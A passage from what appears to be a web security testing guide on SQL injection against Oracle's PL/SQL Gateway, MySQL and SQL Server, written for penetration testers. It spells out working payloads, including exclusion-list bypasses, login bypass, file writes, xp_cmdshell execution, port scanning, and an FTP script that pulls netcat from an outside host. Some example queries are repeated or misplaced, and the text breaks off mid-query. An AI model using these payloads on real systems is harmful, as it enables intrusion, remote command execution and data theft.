It is possible to exploit vulnerabilities in the PL/SQL packages that are installed by default in the database server. How you do this depends on the version of the PL/SQL Gateway. In earlier versions of the PL/SQL Gateway, there was nothing to stop an attacker from accessing an arbitrary PL/SQL package in the database server. We mentioned the OWA_UTIL package earlier. This can be used to run arbitrary SQL queries: 
http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? 
P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS Cross Site Scripting attacks could be launched via the HTP package: 
http://www.example.com/pls/dad/HTP.PRINT?C
BUF=<script>alert('XSS')</script> 
Clearly, this is dangerous, so Oracle introduced a PLSQL Exclusion list to prevent direct access to such dangerous procedures. Banned items include any request starting with SYS.*, any request starting with DBMS_*, any request with HTP.* or OWA*. It is possible to bypass the exclusion list however. What's more, the exclusion list does not prevent access to packages in the CTXSYS and MDSYS schemas or others, so it is possible to exploit flaws in these packages: 
http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALI
DATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL 
This will return a blank HTML page with a 200 OK response if the database server is still vulnerable to this flaw (CVE-2006-0265) 
Testing the PL/SQL Gateway For Flaws 
Over the years, the Oracle PL/SQL Gateway has suffered from a number of flaws, including access to admin pages (CVE-20020561), buffer overflows (CVE-2002-0559), directory traversal bugs, and vulnerabilities that allow attackers to bypass the Exclusion List and go on to access and execute arbitrary PL/SQL packages in the database server. 
Bypassing the PL/SQL Exclusion List 
It is incredible how many times Oracle has attempted to fix flaws that allow attackers to bypass the exclusion list. Each patch that Oracle has produced has fallen victim to a new bypass technique. The history of this sorry story can be found here: http://seclists. org/fulldisclosure/2006/Feb/0011.html 
Bypassing the Exclusion List - Method 1 
When Oracle first introduced the PL/SQL Exclusion List to prevent attackers from accessing arbitrary PL/SQL packages, it could be trivially bypassed by preceding the name of the schema/package with a hex encoded newline character or space or tab: 
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC 
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 2 
Later versions of the Gateway allowed attackers to bypass the exclusion list by preceding the name of the schema/package with a label. In PL/SQL a label points to a line of code that can be jumped to using the GOTO statement and takes the following form: <<NAME>> 
http://www.example.com/pls/dad/<<LBL>>SYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 3 
Simply placing the name of the schema/package in double quotes could allow an attacker to bypass the exclusion list. Note that this will not work on Oracle Application Server 10g as it converts the user's request to lowercase before sending it to the database server and a quote literal is case sensitive - thus "SYS" and "sys" are not the same and requests for the latter will result in a 404 Not Found. On earlier versions though the following can bypass the exclusion list: 


http://www.example.com/pls/dad/"SYS".PACKAGE.PROC 
Bypassing the Exclusion List - Method 4 
Depending upon the character set in use on the web server and on the database server, some characters are translated. Thus, depending upon the character sets in use, the "y" character (0xFF) might be converted to a "Y" at the database server. Another character that is often converted to an upper case "Y" is the Macron character - 0xAF. This may allow an attacker to bypass the exclusion list: 
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 5 
Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - 0x5C: 
http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC 
Bypassing the Exclusion List - Method 6 
This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following 
http://www.example.com/pls/dad/foo.bar?xyz=123 
the application server would execute the following at the database server: 
1 declare 
2 rc__ number; 
3 start_time__ binary_integer; 
4 simple_list__ owa_util.vc_arr; 
5 complex_list__ owa_util.vc_arr; 
6 begin 
7 start_time__ := dbms_utility.get_time; 
8 owa.init_cgi_env(:n__,:nm__,:v__); 
9 htp.HTBUF_LEN := 255; 
10 null; 
11 null; 
12 simple_list__(1) := 'sys.%'; 
13 simple_list__(2) := 'dbms\_%'; 
14 simple_list__(3) := 'utl\_%'; 
15 simple_list__(4) := 'owa\_%'; 
16 simple_list__(5) := 'owa.%'; 
17 simple_list__(6) := 'htp.%'; 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('foo.bar', simple_list__, 
complex_list__, true))) then 20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 foo.bar(XYZ=>:XYZ); 
25 if (wpg_docload.is_file_download) then 
26 rc__ := 1; 
27 wpg_docload.get_download_file(:doc_info); 
28 orasso.wpg_session.deinit(); 
29 null; 
30 null; 
31 commit; 
32 else 
33 rc__ := 0; 
34 orasso.wpg_session.deinit(); 
35 null; 
36 null; 
37 commit; 
38 owa.get_page(:data__,:ndata__); 
39 end if; 
40 end if; 
41 :rc__ := rc__; 
42 :db_proc_time__ := dbms_utility.get_time.start_ 
time__; 
43 end; 
Notice lines 19 and 24. On line 19, the user's request is checked against a list of known "bad" strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable. 
If we then request the following: 
http://server.example.com/pls/dad/INJECT'POINT 
the following PL/SQL is executed: 
.. 
18 simple_list__(7) := 'htf.%'; 
19 if ((owa_match.match_pattern('inject'point', simple_ 
list__, complex_list__, true))) then 
20 rc__ := 2; 
21 else 
22 null; 
23 orasso.wpg_session.init(); 
24 inject'point; 
.. 
This generates an error in the error log: "PLS-00103: Encountered the symbol 'POINT' when expecting one of the following. . ." What we have here is a way to inject arbitrary SQL. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example: 
JAVA_AUTONOMOUS_TRANSACTION.PUSH 
XMLGEN.USELOWERCASETAGNAMES 


PORTAL.WWV_HTP.CENTERCLOSE 
ORASSO.HOME 
WWC_VERSION.GET_HTTP_DATABASE_INFO 

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a 200 OK when requested). As a test, an attacker can request 
http://server.example.com/pls/dad/orasso.home?FOO=BAR 
the server should return a "404 File Not Found" response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed: 
.. 
.. 
if ((owa_match.match_pattern('orasso.home', simple_ 
list__, complex_list__, true))) then

 rc__ := 2; 
else
 null;
   orasso.wpg_session.init();
   orasso.home(FOO=>:FOO);
 ..
 .. 

Note the presence of FOO in the attacker's query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets: 
http://server.example.com/pls/dad/orasso.home?);--=BAR 
This results in the following PL/SQL being executed: 
.. 
orasso.home();--=>:);--); 
.. 

Note that everything after the double minus (--) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it's this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use HTP. PRINT to print BAR, and add the needed bind variable as :1: 
http://server.example.com/pls/dad/orasso.home?);HTP. 
PRINT(:1);--=BAR 

This should return a 200 with the word "BAR" in the HTML. What's happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it's possible to also gain access to owa_util.cellsprint again: http://www.example.com/pls/dad/orasso.home?);OWA_ UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_ USERS 
To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1: 
http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual 

Note that the output won't be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in DBMS_EXPORT_EXTENSION (see http://secunia. com/advisories/19860) 
http://www.example.com/pls/dad/orasso.home?); execute%20immediate%20:1;--=DECLARE%20BUF%20 VARCHAR2(2000);%20BEGIN%20 BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_ LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20 PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS. OWA_UTIL''; END;--','SYS',1,'VER',0);END; 
Assessing Custom PL/SQL Web Applications 
During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities. 
Testing for SQL Injection 
Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator. For example, assume there is a bookstore PL/SQL web application that allows users to search for books by a given author: 
http://www.example.com/pls/bookstore/books.search?au-thor=DICKENS 
If this request returns books by Charles Dickens, but 
http://www.example.com/pls/bookstore/books.search?author=DICK'ENS 

returns an error or a 404, then there might be a SQL injection flaw. This can be confirmed by using the concatenation operator: http://www.example.com/pls/bookstore/books.search?au


thor=DICK'||'ENS 
If this request returns books by Charles Dickens, you've confirmed the presence of the SQL injection vulnerability. 


Tools 
. 
SQLInjector -

http://www.databasesecurity.com/sql-injector.htm 

. 
Orascan (Oracle Web Application VA scanner), NGS SQuirreL (Oracle RDBMS VA Scanner) - http://www.nccgroup.com/en/ our-services/security-testing-audit-compliance/informationsecurity-software/ngs-orascan/ 


References 
Whitepapers 
. 
Hackproofing Oracle Application Server (A Guide to Securing Oracle 9) 

http://www.itsec.gov.cn/docs/20090507151158287612.pdf 

. 
Oracle PL/SQL Injection -http://www.databasesecurity.com/ oracle/oracle-plsql-2.pdf 




Testing for MySQL
Summary 
SQL Injection vulnerabilities occur whenever input is used in the construction of a SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers. It allows for the execution of SQL code under the privileges of the user used to connect to the database. 
MySQL server has a few particularities so that some exploits need to be specially customized for this application. That's the subject of this section. 
How to Test 
When an SQL injection vulnerability is found in an application backed by a MySQL database, there are a number of attacks that could be performed depending on the MySQL version and user privileges on DBMS. 
MySQL comes with at least four versions which are used in production worldwide, 3.23.x, 4.0.x, 4.1.x and 5.0.x. Every version has a set of features proportional to version number. 
. 
From Version 4.0: UNION 

. 
From Version 4.1: Subqueries 

. 
From Version 5.0: Stored procedures, Stored functions and the view named INFORMATION_SCHEMA 

. 
From Version 5.0.2: Triggers 


It should be noted that for MySQL versions before 4.0.x, only Boolean or time-based Blind Injection attacks could be used, since the subquery functionality or UNION statements were not implemented. 
From now on, we will assume that there is a classic SQL injection vulnerability, which can be triggered by a request similar to the the one described in the Section on Testing for SQL Injection. 
http://www.example.com/page.php?id=2 
The Single Quotes Problem 
Before taking advantage of MySQL features, it has to be taken in consideration how strings could be represented in a statement, as often web applications escape single quotes. 
MySQL quote escaping is the following: 
'A string with \'quotes\'' 
That is, MySQL interprets escaped apostrophes (\') as characters and not as metacharacters. 
So if the application, to work properly, needs to use constant strings, two cases are to be differentiated: 
[1] Web app escapes single quotes (' => \') 
[2] Web app does not escape single quotes (' => ') 
Under MySQL, there is a standard way to bypass the need of single quotes, having a constant string to be declared without the need for single quotes. 
Let's suppose we want to know the value of a field named 'password' in a record, with a condition like the following: 
[1] password like 'A%' 
[2] The ASCII values in a concatenated hex: 
password LIKE 0x4125 
[3] The char() function: 
password LIKE CHAR(65,37) 
Multiple mixed queries: 
MySQL library connectors do not support multiple queries separated by ';' so there's no way to inject multiple non-homogeneous SQL commands inside a single SQL injection vulnerability like in Microsoft SQL Server. 
For example the following injection will result in an error: 
1 ; update tablename set code='javascript code' where 1 -
Information gathering 
Fingerprinting MySQL 
Of course, the first thing to know is if there's MySQL DBMS as a back end database. MySQL server has a feature that is used to let other DBMS ignore a clause in MySQL dialect. When a comment block ('/**/') contains an exclamation mark ('/*! sql here*/') it is interpreted by MySQL, and is considered as a normal comment block by other DBMS as explained in MySQL manual. 
Example: 
1 /*! and 1=0 */ 


Result Expected: 
If MySQL is present, the clause inside the comment block will be interpreted. 
Version 
There are three ways to gain this information: 
[1] By using the global variable @@version 
[2] By using the function [VERSION()] 
[3] By using comment fingerprinting with a version number /*!40110 and 1=0*/ which means 
if(version >= 4.1.10) 
   add 'and 1=0' to the query. 

These are equivalent as the result is the same. In band injection: 
1 AND 1=0 UNION SELECT @@version /* 
Inferential injection: 
1 AND @@version like '4.0%' 
Result Expected: 
A string like this: 
5.0.22-log 
Login User 
There are two kinds of users MySQL Server relies upon. 
[1] [USER()]: the user connected to the MySQL Server. 
[2] [CURRENT_USER()]: the internal user who is executing the query. 
There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (''). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using CURRENT_USER. 
In band injection: 
1 AND 1=0 UNION SELECT USER() 
Inferential injection: 
1 AND USER() like 'root%' 
Result Expected: 
A string like this: 
user@hostname 
Database name in use 
There is the native function DATABASE() In band injection: 
1 AND 1=0 UNION SELECT DATABASE() 
Inferential injection: 
1 AND DATABASE() like 'db%' 
Result Expected: 
A string like this: 
dbname 
INFORMATION_SCHEMA 
From MySQL 5.0 a view named [INFORMATION_SCHEMA] was created. It allows us to get all informations about databases, tables, and columns, as well as procedures and functions. 
Here is a summary of some interesting Views. 
Tables_in_INFORMATION_SCHEMA  DESCRIPTION  
..[skipped].. SCHEMATA SCHEMA_PRIVILEGES TABLES TABLE_PRIVILEGES COLUMNS COLUMN_PRIVILEGES VIEWS ROUTINES TRIGGERS USER_PRIVILEGES  ..[skipped].. All databases the user has (at least) SELECT_priv The privileges the user has for each DB All tables the user has (at least) SELECT_priv The privileges the user has for each table All columns the user has (at least) SELECT_priv The privileges the user has for each column All columns the user has (at least) SELECT_priv Procedures and functions (needs EXECUTE_priv) Triggers (needs INSERT_priv) Privileges connected User has  

All of this information could be extracted by using known techniques as described in SQL Injection section. 
Attack vectors 
Write in a File 
If the connected user has FILE privileges and single quotes are not escaped, the 'into outfile' clause can be used to export query results in a file. 
Select * from table into outfile '/tmp/file' 
Note: there is no way to bypass single quotes surrounding a filename. So if there's some sanitization on single quotes like escape (\') there will be no way to use the 'into outfile' clause. 


This kind of attack could be used as an out-of-band technique to gain information about the results of a query or to write a file which could be executed inside the web server directory. 
Example: 
1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS 
ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code 
here%>'; 
Result Expected: 
Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group. 
Where /var/www/root/test.jsp will contain: 
//field values// 
<%jsp code here%> 
Read from a File 
Load_file is a native function that can read a file when allowed by the file system permissions. If a connected user has FILE privileges, it could be used to get the files' content. Single quotes escape sanitization can by bypassed by using previously described techniques. 
load_file('filename') 
Result Expected: 
The whole file will be available for exporting by using standard techniques. 
Standard SQL Injection Attack 
In a standard SQL injection you can have results displayed directly in a page as normal output or as a MySQL error. By using already mentioned SQL Injection attacks and the already described MySQL features, direct SQL injection could be easily accomplished at a level depth depending primarily on the MySQL version the pentester is facing. 
A good attack is to know the results by forcing a function/procedureor the server itself to throw an error. A list of errors thrown by MySQL and in particular native functions could be found on 
MySQL Manual. 
Out of band SQL Injection 
Out of band injection could be accomplished by using the 'into out-file' clause. 
Blind SQL Injection 
For blind SQL injection, there is a set of useful function natively provided by MySQL server. 
. 
String Length: 

LENGTH(str) 

. 
Extract a substring from a given string: 

SUBSTRING(string, offset, #chars_returned) 

. 
Time based Blind Injection: BENCHMARK and SLEEP 


BENCHMARK(#ofcycles,action_to_be_performed ) 
The benchmark function could be used to perform timing 
attacks, when blind injection by boolean values does not yield 
any results. 
See. SLEEP() (MySQL > 5.0.x) for an alternative on benchmark. 

For a complete list, refer to the MySQL manual at http://dev.mysql. com/doc/refman/5.0/en/functions.html 


Tools 
. 
Francois Larouche: Multiple DBMS SQL Injection tool - 

http://www.sqlpowerinjector.com/index.htm 

. 
ilo--, Reversing.org - sqlbftools 

. 
Bernardo Damele A. G.: sqlmap, automatic SQL injection tool - 

http://sqlmap.org/ 

. 
Muhaimin Dzulfakar: MySqloit, MySql Injection takeover tool - 

http://code.google.com/p/mysqloit/ 

. 
http://sqlsus.sourceforge.net/ 


References 
Whitepapers 
. Chris Anley: "Hackproofing MySQL" - 
http://www.databasesecurity.com/mysql/HackproofingMySQL. 
pdf 
Case Studies 
. Zeelock: Blind Injection in MySQL Databases - 
http://archive.cert.uni-stuttgart.de/bugtraq/2005/02/ 
msg00289.html 


Testing for SQL Server
Summary 
In this section some SQL Injection techniques that utilize specific features of Microsoft SQL Server will be discussed. 
SQL injection vulnerabilities occur whenever input is used in the construction of an SQL query without being adequately constrained or sanitized. The use of dynamic SQL (the construction of SQL queries by concatenation of strings) opens the door to these vulnerabilities. SQL injection allows an attacker to access the SQL servers and execute SQL code under the privileges of the user used to connect to the database. 
As explained in SQL injection, a SQL-injection exploit requires two things: an entry point and an exploit to enter. Any user-controlled parameter that gets processed by the application might be hiding a vulnerability. This includes: 
. 
Application parameters in query strings (e.g., GET requests) 

. 
Application parameters included as part of the body of a POST request 

. 
Browser-related information (e.g., user-agent, referrer) 

. 
Host-related information (e.g., host name, IP) 

. 
Session-related information (e.g., user ID, cookies) 


Microsoft SQL server has a few unique characteristics, so some exploits need to be specially customized for this application. 
How to Test 
SQL Server Characteristics 
To begin, let's see some SQL Server operators and commands/ stored procedures that are useful in a SQL Injection test: 


[1] comment operator: -- (useful for forcing the query to ignore 
the remaining portion of the original query; this won't be necessary in every case) 
[2] query separator: ; (semicolon) 
[3] Useful stored procedures include: 
-[xp_cmdshell] executes any command shell in the server with the same permissions that it is currently running. By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp_configure) 
-xp_regread reads an arbitrary value from the Registry 
(undocumented extended procedure) 

-xp_regwrite writes an arbitrary value into the Registry
 (undocumented extended procedure) 

-[sp_makewebtask] Spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text. It requires sysadmin privileges. 
-[xp_sendmail] Sends an e-mail message, which may include a query result set attachment, to the specified recipients. This extended stored procedure uses SQL Mail to send the message. 
Let's see now some examples of specific SQL Server attacks that use the aforementioned functions. Most of these examples will use the exec function. 
Below we show how to execute a shell command that writes the output of the command dir c:\inetpub in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses xp_cmdshell: 
 exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\ 
wwwroot\test.txt'-
Alternatively, we can use sp_makewebtask: 
 exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 
'select * from master.dbo.sysobjects'-
A successful execution will create a file that can be browsed by the pen tester. Keep in mind that sp_makewebtask is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future. 
In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function db_name() to trigger an error that will return the name of the database: 
/controlboard.asp?boardID=2&itemnum=1%20AND%20 
1=CONVERT(int,%20db_name()) 
Notice the use of [convert]: 
CONVERT ( data_type [ ( length ) ] , expression [ , style ] ) CONVERT will try to convert the result of db_name (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB. 
The following example uses the environment variable @@version , combined with a "union select"-style injection, in order to find the version of the SQL Server. 
/form.asp?prop=33%20union%20select%20 
1,2006-01-06,2007-01-06,1,'stat','name1','na 
me2',2006-01-06,1,@@version%20-
And here's the same attack, but using again the conversion trick: 
/form.asp?prop=33%20union%20select%20 
1,2006-01-06,2007-01-06,1,'stat','name1','na 
me2',2006-01-06,1,@@version%20-
Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener. 
In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points. 
Example 1: Testing for SQL Injection in a GET request. 
The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string "' or '1'='1" (without double quotes): 
https://vulnerable.web.app/login.asp?Username='%20or%20 
'1'='1&Password='%20or%20'1'='1 
If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application. 
Example 2: Testing for SQL Injection in a GET request 
In order to learn how many columns exist 
https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20 
users;-
Example 3: Testing in a POST request 
SQL Injection, HTTP POST Content: email=%27&whichSubmit=submit&submit.x=0&submit.y=0 
A complete post example: 
POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1 Host: vulnerable.web.app User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13 


Accept: text/xml,application/xml,application/xhtml+xml,text/ 
html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5 
Accept-Language: en-us,en;q=0.5 
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7 
Keep-Alive: 300 
Proxy-Connection: keep-alive 
Referer: http://vulnerable.web.app/forgotpass.asp 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 50 

email=%27&whichSubmit=submit&submit.x=0&submit.y=0 
The error message obtained when a ' (single quote) character is entered at the email field is: 
PMicrosoft OLE DB Provider for SQL Server error '80040e14' Unclosed quotation mark before the character string  '. /forgotpass.asp, line 15 
Example 4: Yet another (useful) GET example 
Obtaining the application's source code 
a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\ 
login.aspx c:\inetpub\wwwroot\login.txt';-
Example 5: custom xp_cmdshell 
All books and papers describing the security best practices for SQL Server recommend disabling xp_cmdshell in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation. 
On SQL Server 2000: 
. 
If xp_cmdshell has been disabled with sp_dropextendedproc, we can simply inject the following code: 

sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 

. 
If the previous code does not work, it means that the xp_log70. dll has been moved or deleted. In this case we need to inject the following code: 


CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait 
int = 0) AS  DECLARE @result int, @OLEResult int, @RunResult int  DECLARE @ShellID int  EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID 
OUT  IF @OLEResult <> 0 SELECT @result = @OLEResult  IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @ 
OLEResult)  EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, 
@cmd, 0, @Wait
  IF @OLEResult <> 0 SELECT @result = @OLEResult
  IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLERe
sult)
  EXECUTE @OLEResult = sp_OADestroy @ShellID
  return @result 

This code, written by Antonin Foller (see links at the bottom of the page), creates a new xp_cmdshell using sp_oacreate, sp_oamethod and sp_oadestroy (as long as they haven't been disabled too, of course). Before using it, we need to delete the first xp_ cmdshell we created (even if it was not working), otherwise the two declarations will collide. 
On SQL Server 2005, xp_cmdshell can be enabled by injecting the following code instead: 
master..sp_configure 'show advanced options',1 
reconfigure 
master..sp_configure 'xp_cmdshell',1 
reconfigure 
Example 6: Referer / User-Agent 
The REFERER header set to: 
Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 
'some_ip'); [SQL CODE]-
Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to: 
sp_addextendedproc 'xp_cmdshell','xp_log70.dll' 
Example 7: SQL Server as a port scanner 
In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query: 
select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foo
bar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','se
lect 1')-
This query will attempt a connection to the address x.y.w.z on port 
p. If the port is closed, the following message will be returned: 
General network error. Check your network documentation 
OLE DB provider 'sqloledb' reported an error. The provider 
did not give any information about the error. 
On the other hand, if the port is open, one of the following errors will be returned: Of course, the error message is not always available. If that is the case, we can use the response time to understand what is going on: with a closed port, the timeout (5 seconds in this example) will be consumed, whereas an open port will return the result right away. 
Keep in mind that OPENROWSET is enabled by default in SQL Server 2000 but disabled in SQL Server 2005. 


Example 8: Upload of executables 
Once we can use xp_cmdshell (either the native one or a custom one), we can easily upload executables on the target DB Server. A very common choice is netcat.exe, but any trojan will be useful here. If the target is allowed to start FTP connections to the tester's machine, all that is needed is to inject the following queries: At this point, nc.exe will be uploaded and available. 
exec master..xp_cmdshell 'echo open ftp.tester.org > ftp
script.txt';-
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';-- 
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';-
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';-
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';-
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';-
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';-
If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, debug.exe, that is installed by default in all Windows machines. Debug.exe is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call debug.exe on it. There are several tools that create such debug files (e.g.: makescr.exe by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to inject will therefore be the following: 
exec master..xp_cmdshell 'echo [debug script line #1 of n] > 
debugscript.txt';-
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> 
debugscript.txt';-
.... 
exec master..xp_cmdshell 'echo [debug script line #n of n] >> 
debugscript.txt';-
exec master..xp_cmdshell 'debug.exe < debugscript.txt';-
At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably Bobcat, which runs on Windows, and Sqlninja, which runs on Unix (See the tools at the bottom of this page). 
Obtain information when it is not displayed (Out of band) 
Not all is lost when the web application does not return any information --such as descriptive error messages (cf. Blind SQL Injection). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested. 
Other options for out of band attacks are described in Sample 4 above. 
Blind SQL injection attacks 
Trial and error 
Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), use fuzz vectors (1) against this channel and watch the response. For example, if the web application is looking for a book using a query 
  select * from books where title=text entered by the user
then the penetration tester might enter the text: 'Bomba' OR 1=1- and if data is not properly validated, the query will go through and return the whole list of books. This is evidence that there is a SQL injection vulnerability. The penetration tester might later play with the queries in order to assess the criticality of this vulnerability. 
If more than one error message is displayed 
On the other hand, if no prior information is available, there is still a possibility of attacking by exploiting any covert channel. It might happen that descriptive error messages are stopped, yet the error messages give some information. For example: 
. 
In some cases the web application (actually the web server) might return the traditional 500: Internal Server Error, say when the application returns an exception that might be generated, for instance, by a query with unclosed quotes. 

. 
While in other cases the server will return a 200 OK message, but the web application will return some error message inserted by the developers Internal server error or bad data. 


This one bit of information might be enough to understand how the dynamic SQL query is constructed by the web application and tune up an exploit. Another out-of-band method is to output the results through HTTP browseable files. 
Timing attacks 
There is one more possibility for making a blind SQL injection attack when there is not visible feedback from the application: by measuring the time that the web application takes to answer a request. An attack of this sort is described by Anley in ([2]) from where we take the next examples. A typical approach uses the waitfor delay command: let's say that the attacker wants to check if the 'pubs' sample database exists, he will simply inject the following command: 
  select * from books where title=text entered by the user 
Depending on the time that the query takes to return, we will know the answer. In fact, what we have here is two things: a SQL injection vulnerability and a covert channel that allows the penetration tester to get 1 bit of information for each query. Hence, using several queries (as many queries as bits in the required information) the pen tester can get any data that is in the database. Look at the following query 
declare @s varchar(8000) 
declare @i int 
select @s = db_name() 
select @i = [some value] 
if (select len(@s)) < @i waitfor delay '0:0:5' Measuring the response time and using different values for @i, we can deduce the length of the name of the current database, and then start to extract the name itself with the following query: 


if (ascii(substring(@s, @byte, 1)) & ( power(2, @bit))) > 0 
waitfor delay '0:0:5' 
This query will wait for 5 seconds if bit '@bit' of byte '@byte' of the name of the current database is 1, and will return at once if it is 0. Nesting two cycles (one for @byte and one for @bit) we will we able to extract the whole piece of information. 
However, it might happen that the command waitfor is not available (e.g., because it is filtered by an IPS/web application firewall). This doesn't mean that blind SQL injection attacks cannot be done, as the pen tester should only come up with any time consuming operation that is not filtered. For example 
declare @i int select @i = 0 
while @i < 0xaffff begin 
select @i = @i + 1 
end 
Checking for version and vulnerabilities 
The same timing approach can be used also to understand which version of SQL Server we are dealing with. Of course we will leverage the built-in @@version variable. Consider the following query: 
select @@version 
OnSQL Server 2005, it will return something like the following: 
Microsoft SQL Server 2005 - 9.00.1399.06 (Intel X86) Oct 14 
2005 00:33:37 <snip> 
The '2005' part of the string spans from the 22nd to the 25th character. Therefore, one query to inject can be the following: 
if substring((select @@version),25,1) = 5 waitfor delay 
'0:0:5' 
Such query will wait 5 seconds if the 25th character of the @@version variable is '5', showing us that we are dealing with a SQL Server 2005. If the query returns immediately, we are probably dealing with SQL Server 2000, and another similar query will help to clear all doubts. 
Example 9: bruteforce of sysadmin password 
To bruteforce the sysadmin password, we can leverage the fact that OPENROWSET needs proper credentials to successfully perform the connection and that such a connection can be also "looped" to the local DB Server. Combining these features with an inferenced injection based on response timing, we can inject the following code: 
select * from OPENROWSET('SQLOLEDB','';'sa';'<pwd>','select 
